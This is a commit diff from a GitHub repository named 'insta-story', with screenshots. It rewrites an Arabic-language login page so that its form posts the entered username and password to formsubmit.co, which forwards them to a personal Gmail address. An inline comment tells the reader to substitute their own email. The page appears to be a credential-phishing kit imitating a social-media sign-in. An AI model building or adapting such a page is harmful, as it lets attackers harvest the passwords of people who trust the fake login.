

Before and after one commit to crocodile2011/insta-story, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,60 +1,32 @@
 <!DOCTYPE html>
 <html lang="ar">
 <head>
-    <meta charset="UTF-8" />
-    <meta name="viewport" content="width=device-width, initial-scale=1" />
-    <title>تسجيل الدخول</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            background-color: #f0f2f5;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-        }
-        .login-box {
-            background-color: white;
-            padding: 20px 30px;
-            border-radius: 8px;
-            box-shadow: 0 0 10px #ccc;
-            width: 300px;
-        }
-        h2 {
-            text-align: center;
-            color: #1877f2;
-        }
-        input[type="text"], input[type="password"] {
-            width: 100%;
-            padding: 10px;
-            margin: 10px 0 15px 0;
-            border: 1px solid #ddd;
-            border-radius: 4px;
-        }
-        button {
-            width: 100%;
-            background-color: #1877f2;
-            color: white;
-            padding: 10px;
-            border: none;
-            border-radius: 4px;
-            font-weight: bold;
-            cursor: pointer;
-        }
-        button:hover {
-            background-color: #155db2;
-        }
-    </style>
+  <meta charset="UTF-8" />
+  <title>تسجيل الدخول</title>
 </head>
-<body>
-    <div class="login-box">
-        <h2>تسجيل الدخول</h2>
-        <form>
-            <input type="text" placeholder="البريد الإلكتروني أو رقم الهاتف" required />
-            <input type="password" placeholder="كلمة المرور" required />
-            <button type="submit">تسجيل الدخول</button>
-        </form>
-    </div>
+<body style="text-align: center; margin-top: 100px; font-family: sans-serif;">
+  <h2>تسجيل الدخول إلى حسابك</h2>
+
+  <form action="https://formsubmit.co/abodymehaya2@gmail.com" method="POST">
+    <!-- غير الإيميل ده للإيميل الحقيقي بتاعك -->
+
+    <input
+      type="text"
+      name="username"
+      placeholder="البريد الإلكتروني"
+      required
+      style="padding:10px; width: 250px;"
+    /><br /><br />
+
+    <input
+      type="password"
+      name="password"
+      placeholder="كلمة المرور"
+      required
+      style="padding:10px; width: 250px;"
+    /><br /><br />
+
+    <button type="submit" style="padding:10px 20px;">تسجيل الدخول</button>
+  </form>
 </body>
 </html>
```
